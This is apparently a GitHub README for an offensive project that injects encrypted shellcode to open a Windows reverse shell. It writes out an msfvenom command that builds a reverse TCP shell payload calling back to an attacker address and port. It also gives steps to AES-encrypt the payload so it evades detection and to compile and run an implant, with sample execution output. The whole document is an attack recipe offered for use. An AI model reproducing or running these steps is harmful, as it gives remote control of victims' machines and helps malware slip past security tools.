

# Shellcode injection 
(reverse shell)

## Generate payload:
(attacker machine)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.134 LPORT=8989 > reverse.bin

## encrypt reverse.bin:
python2 aes_encrypt.py reverse.bin

## compile.bat:
compile.bat
implant.cpp

## execute binary:
>implant.exe
calc_payload addr    : 0x000000812DAFF650
exec_mem addr        : 0x0000018A43D50000

Hit me 1st!

Hit me 2nd!

Reverse shell:

